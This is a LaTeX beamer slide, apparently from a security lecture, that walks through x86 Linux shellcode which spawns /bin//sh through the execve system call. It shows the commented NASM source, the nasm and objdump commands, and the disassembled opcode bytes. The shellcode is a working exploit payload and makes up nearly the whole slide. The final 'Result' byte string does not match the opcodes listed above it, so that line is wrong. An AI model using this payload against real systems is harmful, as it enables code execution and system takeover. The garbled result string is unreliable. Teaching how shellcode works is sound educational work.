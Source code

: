 \documentclass[beamer]{uibk}
\begin{document}
\begin{frame}[fragile]{Example}
    \begin{columns}
        \begin{column}{0.55\textwidth}
            \begin{pre*}{autogobble,xleftmargin=1em}
                > cat shellcode.asm
            \end{pre*}
            \begin{nasmcode*}{autogobble,xleftmargin=1em}
                xor     eax, eax    ;Clearing eax register
                push    eax         ;Pushing NULL bytes
                push    0x68732f2f  ;Pushing //sh
                push    0x6e69622f  ;Pushing /bin
                mov     ebx, esp    ;ebx now has address of /bin//sh
                push    eax         ;Pushing NULL byte
                mov     edx, esp    ;edx now has address of NULL byte
                push    ebx         ;Pushing address of /bin//sh
                mov     ecx, esp    ;ecx now has address of address
                                    ;of /bin//sh byte
                mov     al, 11      ;syscall number of execve is 11
                int     0x80        ;Make the system call
            \end{nasmcode*}
        \end{column}
        \begin{column}{0.45\textwidth}
            \begin{pre*}{autogobble}
                > nasm -f elf shellcode.asm
                > objdump -d -M intel shellcode.o
                00000000 <.text>:
                   0:  31 c0                  xor    eax,eax
                   2:  50                     push   eax
                   3:  68 2f 2f 73 68         push   0x68732f2f
                   8:  68 2f 62 69 6e         push   0x6e69622f
                   d:  89 e3                  mov    ebx,esp
                   f:  50                     push   eax
                  10:  89 e2                  mov    edx,esp
                  12:  53                     push   ebx
                  13:  89 e1                  mov    ecx,esp
                  15:  b0 0b                  mov    al,0xb
                  17:  cd 80                  int    0x80
            \end{pre*}
        \end{column}
    \end{columns}
    \bigskip

    Result:
    \begin{pre*}{autogobble}
        \x2f\x2f\x2f\x6e\x0b\xcd{}
    \end{pre*}

\end{frame}
\end{document}
